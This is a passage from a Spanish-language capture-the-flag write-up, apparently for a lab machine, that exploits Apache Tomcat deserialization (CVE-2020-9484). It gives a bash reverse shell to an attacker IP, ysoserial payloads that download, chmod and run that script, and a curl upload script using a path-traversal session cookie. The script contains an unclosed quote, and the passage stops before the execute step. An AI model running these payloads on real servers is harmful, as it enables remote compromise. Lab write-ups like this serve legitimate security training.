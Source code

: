 * [Apache Tomcat Deserialization Untrusted Data - Medium.com/@romnenko](https://medium.com/@romnenko/apache-tomcat-deserialization-of-untrusted-data-rce-cve-2020-9484-afc9a12492c4).

Los pasos que debemos seguir son sencillos y fáciles de entender:

1. Crear archivo `bash` donde tengamos la petición hacia nuestra máquina. (Para cuando se ejecute obtener la reverse Shell)
2. Crear objetos serializados: Uno para subir el payload, otro para darle permisos y otro para ejecutarlo.
3. Ponernos en escucha :P
4. Ejecutar las peticiones.

Démosle:

```bash
–» cat ejeje.sh 
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.152/4433 0>&1"
```

Ahora creamos los objetos serializados, usaremos la misma herramienta que él, [**ysoserial**](https://github.com/frohoff/ysoserial#installation).

```bash
#Lo subimos a la maquina y lo guardamos en la ruta /tmp/ejeje.sh
–» java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'curl http://10.10.14.152:8000/ejeje.sh -o /tmp/ejeje.sh' > downloadPayload.session
#Le damos permisos totales
–» java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'chmod 777 /tmp/ejeje.sh' > chmodPayload.session
#Ejecutamos
–» java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'bash /tmp/ejeje.sh' > executePayload.session
```

```bash
–» ls
chmodPayload.session  downloadPayload.session  ejeje.sh  executePayload.session  ysoserial-master-6eca5bc740-1.jar
```

El creador del post crea un script para hacer las peticiones, vamos a copiarnos pero cambiando algunas cositas:

```bash
–» cat todotaskbro.sh 
#!/bin/bash

email="hola@hola.com"
route_upload="../../opt/tomcat/temp
#route_upload="../../../opt/samples/uploads"

echo -e "\n\n+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++ download +++++++++++++++++++++++++++++++++\n\n"

curl -X POST http://10.10.10.205:8080/upload.jsp?email=$email -H "Cookie:JSESSIONID=$route_upload/downloadPayload" -F 'image=@downloadPayload.session'
curl -X POST http://10.10.10.205:8080/upload.jsp?email=$email -H "Cookie:JSESSIONID=$route_upload/downloadPayload"
sleep 1

echo -e "\n\n+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++ chmod +++++++++++++++++++++++++++++++++\n\n"

curl -X POST http://10.10.10.205:8080/upload.jsp?email=$email -H "Cookie:JSESSIONID=$route_upload/chmodPayload" -F 'image=@chmodPayload.session'
curl -X POST http://10.10.10.205:8080/upload.jsp?email=$email -H "Cookie:JSESSIONID=$route_upload/chmodPayload"
```